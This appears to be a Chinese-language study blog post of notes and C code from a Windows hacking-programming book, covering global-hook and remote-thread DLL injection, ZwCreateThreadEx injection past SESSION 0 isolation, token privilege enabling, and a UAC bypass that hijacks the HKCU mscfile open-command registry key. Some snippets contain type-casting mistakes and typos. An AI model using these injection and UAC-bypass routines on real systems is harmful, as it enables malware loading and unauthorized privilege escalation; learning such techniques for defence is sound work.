



[toc]

准备开个系列，就叫“Windows Program Learn”，记录《Windows黑客编程技术详解》书的代码和笔记。

>   https://github.com/jash-git/Windows-Hack-Programming-backup

# 基础

最开始是环境的搭建，这里就不搞了，好像也没啥。

##  单一实例

也就是实现进程互斥。

### CreateMutexA

```c
HANDLE CreateMutexA(
  [in, optional] LPSECURITY_ATTRIBUTES lpMutexAttributes,
  [in]           BOOL                  bInitialOwner,
  [in, optional] LPCSTR                lpName
);
```

参数：

-   `lpMutexAttributes`：指向 [SECURITY_ATTRIBUTES](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa379560(v=vs.85))结构的指针。如果此参数为`NULL`，则句柄不能被子进程继承。

    结构的**lpSecurityDescriptor**成员指定新互斥体的安全描述符。如果`lpMutexAttributes`为`NULL`，则互斥锁将获得默认的安全描述符。

-   `bInitialOwner`：如果此值为**TRUE**并且调用者创建了互斥锁，则调用线程将获得互斥锁对象的初始所有权。否则，调用线程不会获得互斥锁的所有权。

-   `lpName`：互斥对象的名称。

返回值：

-   如果函数成功，则返回值是新创建的互斥对象的句柄。
-   如果函数失败，则返回值为**NULL**。
-   如果互斥锁是一个命名互斥锁并且该对象在此函数调用之前存在，则返回值是现有对象的句柄，并且[GetLastError](https://learn.microsoft.com/en-us/windows/desktop/api/errhandlingapi/nf-errhandlingapi-getlasterror)函数返回`ERROR_ALREADY_EXISTS`。

>   进程、线程、文件、互斥体、事件等等在内核都有一个对应的结构体，这些结构体都由内核负责管理，所以我们都可以称之为内核对象。
>
>   只有进程才会有句柄表，并且**每一个进程都会有一个句柄表**。

```c
BOOL IsAlreadyRun()
{
    HANDLE hMutex = NULL;
    hMutex = CreateMutex(NULL, FALSE, TEXT("TEST"));//TEST需要唯一
    if (hMutex)
    {
        if (ERROR_ALREADY_EXISTS == ::GetLastError())
        {
            return TRUE;
        }
    }
    return FALSE;
}
```

# 注入

内容

-   全局钩子
-   远程线程钩子
-   突破SESSION 0隔离的远程线程注入
-   APC注入

## 全局钩子

>   ok，这里搞了两天终于搞通了，搞个虚拟机在里面写吧，，差点给电脑干出问题。。。

Windows系统中，大部分的应用程序都是基于消息机制的，它们都有一个消息过程函数，根据不同的消息完成不同的功能。

Windows操作系统提供的钩子机制就是用来截获和监控系统中这些消息的。

按照钩子作用的范围不同，它们分为局部钩子和全局钩子。

-   局部钩子： 针对某个线程的
-   全部钩子： 针对整个系统基于消息的应用，需要使用DLL文件，在DLL中实现相应的钩子函数

### API

#### SetWindowsHookExA

```c
HHOOK SetWindowsHookExA(
    [in] int idHook,      //要安装的钩子程序的类型，具体见官方文档
    [in] HOOKPROC lpfn,   //指向挂钩过程的指针。
    [in] HINSTANCE hmod,  //包含lpfn参数指向的钩子过程的 DLL 句柄。
    [in] DWORD dwThreadId //与挂钩过程关联的线程的标识符。
);
```

返回值：

-   成功，则返回值是钩子过程的句柄。
-   失败，则返回值为**NULL**

### 实现

全局钩子的话那钩子函数就必须在DLL中，这样才能“全局”，懂吧？

在操作系统中安装全局钩子后，只要进程接收到可以发出钩子的消息，全局钩子的DLL文件就会由操作系统自动或强行地加载到该进程中。创建一个全局钩子后，在对应事件发生时，系统就会把DLL加载到发生事件的进程中，从而实现DLL注入。

```c
// 钩子回调函数
LRESULT MYWINDAPIEXPORT GetMsgProc(
	int code,
	WPARAM wParam,
	LPARAM lParam)
{
	Messagebox(NULL,NULL,NULL,NULL);
	return ::CallNextHookEx(g_hHook, code, wParam, lParam);
}
// 设置全局钩子
BOOL MYWINDAPIEXPORT SetGlobalHook()
{
	//
	g_hHook = ::SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)GetMsgProc, GetModuleHandle(TEXT("MyDLL.dll")) , 0);
	printf("SetGlobalHook %d\n",(int&)g_hHook);
	if (g_hHook == NULL)
		return FALSE;
	return TRUE;
}
// 卸载钩子
void MYWINDAPIEXPORT UnsetGlobalHook()
{
	printf("UnsetGlobalHook %d\n", (int&)g_hHook);
	UnhookWindowsHookEx(g_hHook);
}

```

如何将钩子句柄传递给其他进程？
可以在DLL中创建共享内存。共享内存是指突破进程独立性，多个进程共享同一段内存。在DLL中创建共享内存，就是在DLL中创建一个变量，然后将DLL加载到多个进程空间，只要一个进程修改了该变量值，其他进程DLL中的这个值也会改变，相当
于多个进程共享一个内存。

```c
HMODULE g_hDllModule;
// 共享内存
#pragma data_seg("mydata")
    HHOOK g_hHook = NULL;
#pragma data_seg()
#pragma comment(linker, "/SECTION:mydata,RWS")//设置可读可写可共享
```

成功装载hook：



## 远程线程注入DLL

就是在另一个进程中创建线程。

### API

#### OpenProcess

```c
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,//对进程对象的访问
  [in] BOOL  bInheritHandle,//如果该值为 TRUE，则由该进程创建的进程将继承句柄。否则，进程不会继承此句柄。
  [in] DWORD dwProcessId//要打开的本地进程的标识符
);
```

返回值：

-   如果函数成功，则返回值是指定进程的打开句柄。
-   如果函数失败，则返回值为 NULL。要获取扩展的错误信息，请调用 [GetLastError](https://learn.microsoft.com/en-us/windows/desktop/api/errhandlingapi/nf-errhandlingapi-getlasterror)。

#### VirtualAllocEx

```c
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,//进程的句柄
  [in, optional] LPVOID lpAddress,//为要分配的页面区域指定所需起始地址的指针
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,//内存分配的类型
  [in]           DWORD  flProtect//要分配的页面区域的内存保护
);
```

返回值

-   如果函数成功，则返回值是分配的页面区域的基地址。
-   如果函数失败，则返回值为**NULL**。要获取扩展的错误信息，请调用[GetLastError](https://learn.microsoft.com/en-us/windows/desktop/api/errhandlingapi/nf-errhandlingapi-getlasterror)

#### WriteProcessMemory

```c
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,//要修改的进程内存的句柄
  [in]  LPVOID  lpBaseAddress,//指向要写入数据的指定进程中的基地址的指针
  [in]  LPCVOID lpBuffer,//指向缓冲区的指针,要写入的数据
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten//可选，指向变量的指针
);
```

返回值：

-   如果函数成功，则返回值非零。
-   如果函数失败，则返回值为 0（零）。

#### CreateRemoteThread

在另一个进程创建线程

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,//进程的句柄
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,//指向 SECURITY_ATTRIBUTES结构的指针
  [in]  SIZE_T                 dwStackSize,//堆栈的初始大小，以字节为单位
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
    //指向要由线程执行的LPTHREAD_START_ROUTINE 类型的应用程序定义函数的指针，表示远程进程中线程的起始地址。该函数必须存在于远程进程中。
  [in]  LPVOID                 lpParameter,//指向要传递给线程函数的变量的指针
  [in]  DWORD                  dwCreationFlags,//控制线程创建的标志
  [out] LPDWORD                lpThreadId//指向接收线程标识符的变量的指针
);
```

返回值：

-   如果函数成功，则返回值是新线程的句柄。
-   如果函数失败，则返回值为**NULL**。

### 实现

使用`LoadLibrary`加载DLL，使用`VirtualAllocEx`在目标进程创建空间，使用`WriteProcessMemory`将指定的DLL路径写到指定进程空间，使用`CreateRemoteThread`在目标进程创建线程，完成线程注入DLL

-   OpenProcess
-   VirtualAllocEx
-   WriteProcessMemory
-   GetProcAddress
-   CreateRemoteThread

```c
BOOL CreaeteRemoteThreadInjectDLL(DWORD dwprocessId,char* pszDLLFilename)
{
	HANDLE hProcess = NULL;
	SIZE_T dwSize = 0;
	LPVOID pDLLAddr = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	//PROCESS_ALL_ACCESS: 进程对象的所有可能访问权限
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwprocessId);
	if (!hProcess)
	{
		printf("OpenProcess Error\n");
		return FALSE;
	}
	dwSize = 1 + strlen(pszDLLFilename);
	//MEM_COMMIT: 为指定的保留内存页面分配内存，初始化为0
	pDLLAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (!pDLLAddr)
	{
		printf("VirtualAllocEx Error\n");
		return FALSE;
	}
	if (FALSE == WriteProcessMemory(hProcess,pDLLAddr,pszDLLFilename,dwSize,NULL))
	{
		printf("WriteProcessMemory Error\n");
		return FALSE;
	}
	pFuncProcAddr = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	if (!pFuncProcAddr)
	{
		printf("GetProcAddress Error\n");
		return FALSE;
	}
	hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDLLAddr, 0, NULL);
	CloseHandle(hProcess);
	return TRUE;
}
mian():
	BOOL res = CreaeteRemoteThreadInjectDLL(18556, (char*)"E:\\B\\win32Code\\Chapter3\\Project4\\x64\\Debug\\CreateRemoteThreadDLL.dll");
```

成功远程线程注入：



## 突破SESSION 0隔离的远线程注入

如果上面的远线程注入对于系统的一些服务注入的话会失败，这是由于系统存在SESSION 0隔离的安全机制。

可以使用`ZwCreateThreadEx`进行远线程注入，还可以突破SESSION0隔离。

简单看下SESSION0隔离：[SESSION0隔离](https://learn.microsoft.com/zh-cn/previous-versions/ee663077(v=msdn.10)?redirectedfrom=MSDN)，[SESSION0隔离](https://learn.microsoft.com/zh-cn/previous-versions/msdn10/Ee791007(v=MSDN.10))

Windows Vista之前：

.png)

之后：

.png)

### API

####  ZwCreateThreadEx

其实这个不应该放到API这个标题下面的，因为微软其实并没有给出文档，在ntdll.dll中并没有声明，需要GetProcAddress导出。

其实`CreateRemoteThread`最终底层调用的就是`ZwCreateThreadEx`，在内核6.0后引入会话隔离机制。他在创建一个进城后不立即执行，而是挂起，也就是第七个参数`CreateSuspended`为1，从而导致DLL注入失败。（所以说置0就行了。

函数声明（注意32位与64位的声明是有区别的）：

```c++
#ifdef _WIN64
typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif
```


### 实现

跟上面的差不多

```c
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
BOOL ZwCreateThreadExInjectDLL(DWORD dwProcssId, char* pszDLLFileName)
{
	HANDLE hProcess = NULL;
	SIZE_T dwSize = 0;
	LPVOID pDLLAddr = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	HMODULE hNtdll = NULL;
	//PROCESS_ALL_ACCESS: 进程对象的所有可能访问权限
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcssId);
	if (!hProcess)
	{
		printf("OpenProcess Error\n");
		return FALSE;
	}
	dwSize = 1 + strlen(pszDLLFileName);
	//MEM_COMMIT: 为指定的保留内存页面分配内存，初始化为0
	pDLLAddr = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (!pDLLAddr)
	{
		printf("VirtualAllocEx Error\n");
		return FALSE;
	}
	if (FALSE == WriteProcessMemory(hProcess, pDLLAddr, pszDLLFileName, dwSize, NULL))
	{
		printf("WriteProcessMemory Error\n");
		return FALSE;
	}
	hNtdll = LoadLibrary(L"ntdll.dll");
	pFuncProcAddr = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	if (!pFuncProcAddr)
	{
		printf("GetProcAddress Error\n");
		return FALSE;
	}
	typedef_ZwCreateThreadEx ZwCreateThreadEx = (typedef_ZwCreateThreadEx)GetProcAddress(hNtdll, "ZwCreateThreadEx");

	DWORD status = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDLLAddr, 0, 0, 0, 0, NULL);
	//hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDLLAddr, 0, NULL);
	CloseHandle(hProcess);
	FreeLibrary(hNtdll);
	return TRUE;
}
```

在这如果想通过MessageBox判断是否注入成功，会失败。由于会话隔离，在系统程序中不能显示程序窗体，也不能用常规方式来建立用户进程。可以使用cs的dll来判断注入是否成功。为了解决服务层和用户层交互的问题，微软设计了一系列以WTS(windows terminal service)开头的API来实现这些功能，下面几章会写。


## APC注入(未完成)

APC(Asynchronous Procedure Calls)异步过程调用，[微软 APC](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-callss)

>   每个线程都有自己的 APC 队列。应用程序通过调用QueueUserAPC函数将 APC 排队到线程中。调用线程在对QueueUserAPC的调用中指定 APC 函数的地址。APC的排队是线程调用APC函数的请求。
>
>   当用户模式 APC 排队时，它排队的线程不会被定向调用 APC 函数，除非它处于警报状态。线程在调用SleepEx、SignalObjectAndWait、MsgWaitForMultipleObjectsEx、WaitForMultipleObjectsEx或WaitForSingleObjectEx函数时进入警报状态。如果在 APC 排队之前等待满足，则线程不再处于警报等待状态，因此不会执行 APC 函数。但是，APC 仍然在排队，因此当线程调用另一个可警报等待函数时，将执行 APC 函数。

### API

#### QueueUserAPC

将用户模式[异步过程调用](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)(APC) 对象添加到指定线程的 APC 队列。

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,//APC函数指针
  [in] HANDLE    hThread,//线程句柄，必须包含THREAD_SET_CONTEXT访问权限
  [in] ULONG_PTR dwData//传递给APC函数的参数，单个值
);
```

#### CreateToolhelp32Snapshot

拍摄指定进程的快照，以及这些进程使用的堆、模块和线程。

```c
HANDLE CreateToolhelp32Snapshot(
  [in] DWORD dwFlags,
  [in] DWORD th32ProcessID//进程标识符，0表示当前进程
);
```

#### Process32First

第一个进程信息

```c
BOOL Process32First(
  [in]      HANDLE           hSnapshot,
  [in, out] LPPROCESSENTRY32 lppe//指向 PROCESSENTRY32结构的指针
);
```


### 实现

一个进程有多个线程，为了确保能够执行插入的APC，需要向每个线程都插入APC。

具体流程：

1.  

# 启动

三部分：

1.  创建进程API
2.  突破SESSION0隔离创建进程
3.  内存加载直接执行

## 创建进程API

Windows常用3个创建进程的API

-   WinExec
-   ShellExecute
-   CreateProcess

### API

#### WinExec

```c
UINT WinExec(
  [in] LPCSTR lpCmdLine,//文件名+参数
  [in] UINT   uCmdShow//显示选项
);
```

返回值：

-   成功：返回值大于31

#### ShellExecuteA

```c
HINSTANCE ShellExecuteA(
  [in, optional] HWND   hwnd,
  [in, optional] LPCSTR lpOperation,
  [in]           LPCSTR lpFile,
  [in, optional] LPCSTR lpParameters,
  [in, optional] LPCSTR lpDirectory,
  [in]           INT    nShowCmd
);s
```

返回值：

-   成功：返回值大于31

#### CreateProcessA

```c
BOOL CreateProcessA(
  [in, optional]      LPCSTR                lpApplicationName,//程序名称
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,//指向 SECURITY_ATTRIBUTES结构的指针
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,//指向 SECURITY_ATTRIBUTES结构的指
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,//控制优先级和进程创建的标志
  [in, optional]      LPVOID                lpEnvironment,//指向新进程的环境块的指针。
  [in, optional]      LPCSTR                lpCurrentDirectory,//当前进程完整目录
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```


### 实现

```c
void ExecTest(const char* pszFileName) 
{
	UINT a = WinExec(pszFileName, 0);
}
void ShellExecuteTest(const char* pszFileName)
{
	HINSTANCE hInstance = ShellExecuteA(NULL, NULL, pszFileName, NULL, NULL, 0);
}
void CreateProcessTest(char* pszFileName)
{
	STARTUPINFO si = {0};
	PROCESS_INFORMATION pi;
	si.cb = sizeof(si);
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOWNORMAL;
	BOOL res = CreateProcessA(NULL,pszFileName, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
	if (res == TRUE)
	{
		printf("true\n");
		CloseHandle(pi.hProcess);
		CloseHandle(pi.hThread);
	}
	else {
		printf("false");
	}
} 
```

## 突破SESSION 0隔离创建用户进程

SESSION 0的内容见上文，为了解决服务层和用户层交互的问题，微软设计了一系列以WTS(windows terminal service)开头的API来实现这些功能。

### API

#### WTSGetActiveConsoleSessionId

检索控制台会话的会话标识符。

```c
DWORD WTSGetActiveConsoleSessionId();
```

#### WTSQueryUserToken

获取会话 ID 指定的登录用户的主要访问令牌。

```c
BOOL WTSQueryUserToken(
  [in]  ULONG   SessionId,//远程桌面服务会话标识符。
  [out] PHANDLE phToken
);
```

#### DuplicateTokenEx

创建一个复制现有令牌的新[访问令牌。](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/a-gly)

```c
BOOL DuplicateTokenEx(
  [in]           HANDLE                       hExistingToken,
  [in]           DWORD                        dwDesiredAccess,//指定新令牌的请求访问权限
  [in, optional] LPSECURITY_ATTRIBUTES        lpTokenAttributes,
  [in]           SECURITY_IMPERSONATION_LEVEL ImpersonationLevel,
  [in]           TOKEN_TYPE                   TokenType,
  [out]          PHANDLE                      phNewToken
);
```

#### CreateEnvironmentBlock

检索指定用户的环境变量。

```c
BOOL CreateEnvironmentBlock(
  [out]          LPVOID *lpEnvironment,
  [in, optional] HANDLE hToken,
  [in]           BOOL   bInherit
);
```

#### CreateProcessAsUserA

创建一个新进程及其主线程。新进程在由指定令牌表示的用户的安全上下文中运行。

```c
BOOL CreateProcessAsUserA(
  [in, optional]      HANDLE                hToken,//用户的主令牌的句柄
  [in, optional]      LPCSTR                lpApplicationName,
  [in, out, optional] LPSTR                 lpCommandLine,
  [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  [in]                BOOL                  bInheritHandles,
  [in]                DWORD                 dwCreationFlags,//控制优先级和进程创建的标志。
  [in, optional]      LPVOID                lpEnvironment,
  [in, optional]      LPCSTR                lpCurrentDirectory,
  [in]                LPSTARTUPINFOA        lpStartupInfo,
  [out]               LPPROCESS_INFORMATION lpProcessInformation
);
```

### 实现

首先使用`WTSGetActiveConsoleSessionId`获取当前sessionID，之后调用`WTSQueryUserToken`返回用户令牌句柄，之后使用`DuplicateToken`创建新的令牌，并复制上面获取的用户令牌，之后使用`CreateEnvironmentBlock`创建一个环境块，再之后就是调用`CreateProcessAsUserA`创建

```c
BOOL createUserProcess(char* pszFileName)
{
	DWORD dwSessionId;
	HANDLE hToken = NULL;
	HANDLE hDuplicatedToken = NULL;
	LPVOID lpEnvironment = NULL;
	STARTUPINFO si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);
	// 获得当前Session ID
	dwSessionId = WTSGetActiveConsoleSessionId();
	// 获得当前Session的用户令牌
	if (WTSQueryUserToken(dwSessionId, &hToken) == FALSE)
	{
		printf("WTSGetActiveConsoleSessionId Error\n");
		return FALSE;
	}
	// 复制令牌
	if (FALSE == DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityIdentification, TokenPrimary, &hDuplicatedToken))
	{
		printf("DuplicateTokenEx Error\n");
		return FALSE;
	}
	// 创建用户Session环境
	if (FALSE == CreateEnvironmentBlock(&lpEnvironment, hDuplicatedToken, FALSE))
	{
		printf("CreateEnvironmentBlock Error\n");
		return FALSE;
	}
	if (FALSE == CreateProcessAsUser(hDuplicatedToken, (LPCWSTR)pszFileName, NULL, NULL, NULL, FALSE,
		NORMAL_PRIORITY_CLASS | CREATE_NEW_CONSOLE | CREATE_UNICODE_ENVIRONMENT,
		lpEnvironment, NULL, &si, &pi))
	{
		printf("CreateProcessAsUser Error\n");
		return FALSE;
	}
	if (lpEnvironment)
		DestroyEnvironmentBlock(lpEnvironment);
	if (hDuplicatedToken)
		CloseHandle(hDuplicatedToken);
	if (hToken)
		CloseHandle(hToken);
	return TRUE;
}
```

要实现突破SESSION 0隔离的话，必须将程序注册为一个系统服务进程 ，这样才在SESSION 0中，服务程序的入口点和普通的程序不同，需要调用`StartServiceCtrlDispatcher`函数来设置服务入口点函数，这里不写了，见[代码](https://github.com/jash-git/Windows-Hack-Programming-backup/blob/master/WINDOWS%E9%BB%91%E5%AE%A2%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF%E8%AF%A6%E8%A7%A3-%E9%85%8D%E5%A5%97%E8%B5%84%E6%BA%90/%E7%94%A8%E6%88%B7%E5%B1%82/4/%E7%AA%81%E7%A0%B4SESSION%200%E9%9A%94%E7%A6%BB%E5%88%9B%E5%BB%BA%E7%94%A8%E6%88%B7%E8%BF%9B%E7%A8%8B/CreateProcessAsUser_Test/CreateProcessAsUser_Test/CreateProcessAsUser_Test.cpp)。


## 内存加载执行(未完成)

就是把程序放到内存执行，不需要`LoadLibrary`，需要PE的知识。

代码见：[代码](https://github.com/jash-git/Windows-Hack-Programming-backup/blob/master/WINDOWS%E9%BB%91%E5%AE%A2%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF%E8%AF%A6%E8%A7%A3-%E9%85%8D%E5%A5%97%E8%B5%84%E6%BA%90/%E7%94%A8%E6%88%B7%E5%B1%82/4/%E5%86%85%E5%AD%98%E7%9B%B4%E6%8E%A5%E5%8A%A0%E8%BD%BD%E8%BF%90%E8%A1%8C/RunDllInMem_Test/RunDllInMem_Test/MmLoadDll.cpp)


# 提权技术(Bypass UAC部分未完成)

主要是两种：

1.  进程访问令牌权限提升
2.  Bypass UAC

## 进程访问令牌权限提升


### API

#### OpenProcessToken

打开与进程关联的[访问令牌](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/a-gly)

```c
BOOL OpenProcessToken(
  [in]  HANDLE  ProcessHandle,
  [in]  DWORD   DesiredAccess,//指定一个访问掩码
  [out] PHANDLE TokenHandle
);
```

#### LookupPrivilegeValue

查看系统权限的特权值，返回LUID结构体

```c
BOOL LookupPrivilegeValueA(
  [in, optional] LPCSTR lpSystemName,//指向以空字符结尾的字符串的指针，该字符串指定在其上检索特权名称的系统名称。
  [in]           LPCSTR lpName,
  [out]          PLUID  lpLuid
);
```

#### AdjustTokenPrivileges

启用或禁用指定[访问令牌](https://learn.microsoft.com/en-us/windows/desktop/SecGloss/a-gly)中的权限

```c
BOOL AdjustTokenPrivileges(
  [in]            HANDLE            TokenHandle,//要修改的权限的访问令牌的句柄
  [in]            BOOL              DisableAllPrivileges,
  [in, optional]  PTOKEN_PRIVILEGES NewState,
  [in]            DWORD             BufferLength,
  [out, optional] PTOKEN_PRIVILEGES PreviousState,//一个指向缓冲区的指针，函数用TOKEN_PRIVILEGES结构填充该结构，该结构包含函数修改的任何特权的先前状态
  [out, optional] PDWORD            ReturnLength//PreviousState大小，字节
);
```

### 实现


```c
BOOL enablePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	BOOL res = FALSE;
	LUID luidValue = {0};
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };

	OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);
	LookupPrivilegeValue(NULL,(LPCWSTR)pszPrivilegesName, &luidValue);
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	res=AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);
	printf("%d,", res);
	printf("%d", GetLastError());
	if (GetLastError() == ERROR_SUCCESS)
	{
		return TRUE;
	}
	else {
		return FALSE;
	}
}
```

`AdjustTokenPrivileges`的返回值为true也不代表特权设置成功，必须要`GetLastError`的值为`ERROR_SUCCESS`才成功，如果再程序中只提升一个访问令牌特权，且错误码为`ERROR_NOT_ALL_ASSIGNED`,则提升失败。如果程序运行再Windows 7或者以上版本的操作系统，可以尝试以管理员身份运行程序，然后再进行测试。




## BypassUAC

>   UAC需要授权的动作包括：
>
>   -   以管理员身份运行程序
>   -   配置[Windows Update](https://zh.wikipedia.org/wiki/Windows_Update)
>   -   增加或删除用户账户
>   -   改变用户的账户类型
>   -   配置来宾（Guest）账户（Windows 7和8.1）
>   -   改变UAC设置
>   -   安装[ActiveX](https://zh.wikipedia.org/wiki/ActiveX)
>   -   安装或移除[程序](https://zh.wikipedia.org/wiki/计算机程序)
>   -   安装设备[驱动程序](https://zh.wikipedia.org/wiki/驅動程式)
>   -   设置家长控制
>   -   修改系统盘根目录、**Program Files**（x86和x64）目录或**Windows**目录
>   -   查看其他用户文件夹
>   -   配置文件共享或[流媒体](https://zh.wikipedia.org/wiki/流媒體)
>   -   配置家长控制面板
>   -   运行[Microsoft Management Console](https://zh.wikipedia.org/wiki/微软管理控制台)控制台和以.msc为后缀名程序（部分.mmc程序除外）
>   -   运行[系统还原](https://zh.wikipedia.org/wiki/系統還原)程序
>   -   运行[磁盘碎片整理](https://zh.wikipedia.org/w/index.php?title=磁盤碎片整理&action=edit&redlink=1)程序
>   -   运行[注册表编辑器](https://zh.wikipedia.org/w/index.php?title=註冊表編輯器&action=edit&redlink=1)或修改注册表
>   -   安装或卸载显示语言（Windows 7）
>   -   运行Windows评估程序
>   -   配置Windows电源程序，
>   -   配置Windows功能
>   -   运行日期和时间控制台
>   -   配置轻松访问
>   -   激活、修改产品密钥

在触发 UAC 时，操作系统会创建一个`consent.exe`进程，用来确定是否创建具有管理员权限的进程（通过白名单和用户选择判断），然后`CreateProcess`。请求进程将要请求的进程cmdline和进程路径，通过LPC接口传递给appinfo的`RAiLuanchAdminProcess`函数，该函数首先验证路径是否在白名单中，并将结果传递给consent.exe进程，该进程验证被请求的进程签名，以及发起者的权限，是否符合要求，然后决定是否弹出UAC框，让用户确认。这个UAC框会创建新的安全桌面，遮挡之前的界面。同时这个UAC框进程是SYSTEM账户的进程，其他标准用户进程无法与其通信交互。用户确认之后，会调用`CreateProcessAsUser`函数，以管理员权限启动请求的进程。

UAC Bypass方法：

-   白名单提权
-   COM组件接口技术

#### Bypass UAC-白名单提权

使用进程监控工具：`Procmon.exe`，监控`CompMgmtLauncher.exe`

`CompMgmtLauncher.exe`进程会先查询注册表`HKCU\Software\Classes\mscfile\shell\open\command`中的数据，发现该路路径不存在后，继续查询注册表`HKCR\mscfile\shell\open\command(Default)`中的数据并读取，该注册表路径中存储着mmc.exe进程的路径信息。

可以在`HKCU\Software\Classes\mscfile\shell\open\command(Default)`写入自定义路径，实现代码如下：

```c
BOOL setReg(char* lpzEXEpath)
{
	HKEY hKey = NULL;
	// 创建项
	RegCreateKeyEx(HKEY_CURRENT_USER, (LPCWSTR)"Software\\Classes\\mscfile\\Shell\\Open\\Command", 0, NULL, 0, KEY_WOW64_64KEY | KEY_ALL_ACCESS, NULL, &hKey, NULL);
	// 设置键值
	RegSetValueEx(hKey, NULL, 0, REG_SZ, (BYTE*)lpzEXEpath, (1 + lstrlen((LPCWSTR)lpzEXEpath)));
	// 关闭注册表
	RegCloseKey(hKey);
	return TRUE;
}
```


# 隐藏技术


